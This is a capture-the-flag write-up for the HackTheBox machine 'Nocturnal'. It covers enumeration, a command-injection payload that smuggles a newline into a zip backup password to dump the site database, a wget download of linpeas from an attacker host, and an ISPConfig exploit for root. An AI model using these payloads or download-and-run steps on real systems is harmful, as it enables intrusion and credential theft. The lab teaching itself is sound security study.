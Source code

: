 # Nocturnal HTB - Active Machine

## Basic Enumeration

Started with a simple `nmap` scan:

```
nmap -sV -sC --min-rate 500 <ip-address>
```

**Found:**

* `22/tcp` - SSH running on Ubuntu
* `80/tcp` - HTTP, redirects to `nocturnal.htb`

Added the IP and domain to `/etc/hosts`.

Visited `nocturnal.htb` in browser — there was a register and login page. I registered, logged in, and saw a file upload page.

Only file types allowed were `.doc`, `.pdf`, etc. — no `.php`.

## Web Directory Fuzzing

Used `ffuf`:

```
ffuf -u http://nocturnal.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 404
```

Found `admin.php`, but it redirects to login. Tried default creds like `admin`, `root` — nothing worked.

## Subdomain Fuzzing

```
ffuf -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://nocturnal.htb' -H 'Host: FUZZ.nocturnal.htb'
```

Saw all responses return 302 with size 154 — wildcard DNS maybe. So I filtered with `-fs 154`. Got nothing useful.

## File Upload Attempts

Tried uploading `.php` reverse shell with renamed extension like `.php.pdf` — it uploads, but doesn't execute.

Used Burp to intercept upload, tried changing content type to `application/x-php`, or uploading `.php` with `application/pdf`, but still no execution.

When viewing the uploaded file, the app hits `view.php?username=blah&file=php-reverse-shell-edited.php.pdf` — tried path traversal but it checks extensions, so blocked.

## Username Enumeration

Tried finding valid usernames using ffuf:

```
ffuf -w SecLists/Usernames/xato-net-10-million-usernames.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=dummy.pdf" -H "Cookie: PHPSESSID=<valid-session>" -fs 2985
```

Found valid users:

* `tobias`
* `amanda`
* `admin`

Checked for files under each user — found `privacy.odt` under `amanda` which had a password and a note saying she had access to all services.

## Amanda Access — Backup Feature

Logged in as `amanda`. Found a backup feature that zips everything with a user-supplied password. The entire source code gets zipped.

Found SQLite file at:

```
/var/www/nocturnal_database/nocturnal_database.db
```

Saw that password input in the backup function is sanitized, but URL-encoded newline (%0A) and tab (%09) were allowed.

### Exploit

Used Burp Repeater to send:

```
password=%0Abash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A
```

Command being exploited:

```
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

So `%0A` breaks the zip command, and we run our own command via `bash -c`. The `.dump` returns the full DB content including user and admin hashes.

Cracked `tobias`'s hash — password was:

```
[redacted]
```

## SSH Access

SSH'd into the machine using `tobias`'s creds and got the user flag.

## Privilege Escalation

Uploaded and ran `linpeas.sh` via:

```
wget http://<attacker-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Checked all the red/highlighted stuff:

* SUID binaries
* CVE-2021-3156 (Baron Samedit)
* CVE-2021-3560 (polkit)
* Sendmail-related stuff

None of these worked.

Then noticed something I had missed — port `8080` was open.

## ISPConfig Exploit

Visited `http://localhost:8080` (via SSH forwarding or browser-based tunnel) and saw ISPConfig panel — version 3.2.10p1.

Vulnerable to CVE-2023-46818.

Googled and found a Python PoC exploit. Transferred it to the target and ran it. Got root shell and the root flag.

Rooted. ✅
